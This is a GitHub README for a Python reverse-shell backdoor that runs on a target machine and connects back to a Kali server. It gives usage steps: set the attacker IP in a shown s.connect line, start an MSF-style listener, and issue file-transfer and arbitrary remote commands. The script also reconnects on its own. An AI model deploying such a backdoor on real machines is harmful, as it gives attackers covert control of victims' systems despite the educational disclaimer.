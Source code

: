 # Kali-Linux-Backdoor

This script is a simple remote administration tool that establishes a reverse shell connection between a target machine and a kali linux machine. It allows the kali linux machine to utilize a server paired with this backdoor script to execute commands on the remote machine such as upload and download files, navigate through the target machines file system etc.

## Prerequisites

Before using this script, ensure that you have the following:

- Python 3.x installed on both the client and server machines.
- Knowledge of the IP address and port where the server will be listening.

## Usage

1. Update the IP address and port number in the `connection()` function to match the server's IP address and port.
   s.connect(('192.168.x.xxx',55xx))  # Update IP address and port number
2. Run the script on the target machine and the server on the kali machine.
3. Run a listener on the server machine to receive the incoming connection. Such as those offered by the MSF console.
4. Once the connection is established, you can interact with the remote machine through commands such as:
quit: Terminate the remote connection.
clear: Clear the screen.
cd [directory]: Change the current working directory on the remote machine.
download [file]: Upload a file from the remote machine to the client machine.
upload [file]: Download a file from the client machine to the remote machine.
Any other command will be executed on the remote machine, and the result will be sent back to the client.
Note: The script automatically attempts to reconnect every 20 seconds if the connection is lost.

## Disclaimer
This script is intended for educational and authorized testing purposes only. Unauthorized use of this script is strictly prohibited. Use at your own risk. The author assumes no responsibility for any misuse or damage caused by this script.
